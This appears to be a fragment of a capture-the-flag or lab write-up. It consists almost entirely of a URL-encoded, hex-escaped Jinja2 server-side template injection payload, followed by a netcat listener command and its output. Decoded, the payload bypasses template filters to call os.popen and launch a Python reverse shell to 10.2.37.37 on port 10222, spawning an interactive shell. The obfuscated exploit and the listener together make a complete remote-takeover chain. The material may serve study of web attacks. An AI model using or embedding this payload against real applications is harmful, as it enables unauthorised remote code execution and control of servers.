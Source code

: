 ```powershell
%7b%7b%72%65%71%75%65%73%74%7c%61%74%74%72%28%27%61%70%70%6c%69%63%61%74%69%6f%6e%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%6c%6f%62%61%6c%73%5c%78%35%66%5c%78%35%66%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%65%74%69%74%65%6d%5c%78%35%66%5c%78%35%66%27%29%28%27%5c%78%35%66%5c%78%35%66%62%75%69%6c%74%69%6e%73%5c%78%35%66%5c%78%35%66%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%65%74%69%74%65%6d%5c%78%35%66%5c%78%35%66%27%29%28%27%5c%78%35%66%5c%78%35%66%69%6d%70%6f%72%74%5c%78%35%66%5c%78%35%66%27%29%28%27%6f%73%27%29%7c%61%74%74%72%28%27%70%6f%70%65%6e%27%29%28%27%5c%78%37%30%5c%78%37%39%5c%78%37%34%5c%78%36%38%5c%78%36%66%5c%78%36%65%5c%78%33%33%5c%78%32%30%5c%78%32%64%5c%78%36%33%5c%78%32%30%5c%78%32%37%5c%78%36%39%5c%78%36%64%5c%78%37%30%5c%78%36%66%5c%78%37%32%5c%78%37%34%5c%78%32%30%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%63%5c%78%37%33%5c%78%37%35%5c%78%36%32%5c%78%37%30%5c%78%37%32%5c%78%36%66%5c%78%36%33%5c%78%36%35%5c%78%37%33%5c%78%37%33%5c%78%32%63%5c%78%36%66%5c%78%37%33%5c%78%33%62%5c%78%37%33%5c%78%33%64%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%65%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%38%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%65%5c%78%34%31%5c%78%34%36%5c%78%35%66%5c%78%34%39%5c%78%34%65%5c%78%34%35%5c%78%35%34%5c%78%32%63%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%65%5c%78%35%33%5c%78%34%66%5c%78%34%33%5c%78%34%62%5c%78%35%66%5c%78%35%33%5c%78%35%34%5c%78%35%32%5c%78%34%35%5c%78%34%31%5c%78%34%64%5c%78%32%39%5c%78%33%62%5c%78%37%33%5c%78%32%65%5c%78%36%33%5c%78%36%66%5c%78%36%65%5c%78%36%65%5c%78%36%35%5c%78%36%33%5c%78%37%34%5c%78%32%38%5c%78%32%38%5c%78%32%32%5c%78%33%31%5c%78%33%30%5c%78%32%65%5c%78%33%32%5c%78%32%65%5c%78%33%33%5c%78%33%37%5c%78%32%65%5c%78%33%33%5c%78%33%37%5c%78%32%32%5c%78%32%63%5c%78%33%31%5c%78%33%30%5c%78%33%32%5c%78%33%32%5c%78%33%32%5c%78%32%39%5c%78%32%39%5c%78%33%62%5c%78%36%66%5c%78%37%33%5c%78%32%65%5c%78%36%34%5c%78%37%35%5c%78%37%30%5c%78%33%32%5c%78%32%38%5c%78%37%33%5c%78%32%65%5c%78%36%36%5c%78%36%39%5c%78%36%63%5c%78%36%35%5c%78%36%65%5c%78%36%66%5c%78%32%38%5c%78%32%39%5c%78%32%63%5c%78%33%30%5c%78%32%39%5c%78%33%62%5c%78%32%30%5c%78%36%66%5c%78%37%33%5c%78%32%65%5c%78%36%34%5c%78%37%35%5c%78%37%30%5c%78%33%32%5c%78%32%38%5c%78%37%33%5c%78%32%65%5c%78%36%36%5c%78%36%39%5c%78%36%63%5c%78%36%35%5c%78%36%65%5c%78%36%66%5c%78%32%38%5c%78%32%39%5c%78%32%63%5c%78%33%31%5c%78%32%39%5c%78%33%62%5c%78%36%66%5c%78%37%33%5c%78%32%65%5c%78%36%34%5c%78%37%35%5c%78%37%30%5c%78%33%32%5c%78%32%38%5c%78%37%33%5c%78%32%65%5c%78%36%36%5c%78%36%39%5c%78%36%63%5c%78%36%35%5c%78%36%65%5c%78%36%66%5c%78%32%38%5c%78%32%39%5c%78%32%63%5c%78%33%32%5c%78%32%39%5c%78%33%62%5c%78%36%39%5c%78%36%64%5c%78%37%30%5c%78%36%66%5c%78%37%32%5c%78%37%34%5c%78%32%30%5c%78%37%30%5c%78%37%34%5c%78%37%39%5c%78%33%62%5c%78%32%30%5c%78%37%30%5c%78%37%34%5c%78%37%39%5c%78%32%65%5c%78%37%33%5c%78%37%30%5c%78%36%31%5c%78%37%37%5c%78%36%65%5c%78%32%38%5c%78%32%32%5c%78%37%33%5c%78%36%38%5c%78%32%32%5c%78%32%39%5c%78%32%37%27%29%7c%61%74%74%72%28%27%72%65%61%64%27%29%28%29%7d%7d
```

`nc -nlvp 10222`

```powershell
listening on [any] 10222 ...
```

![image.png](image%2018.png)
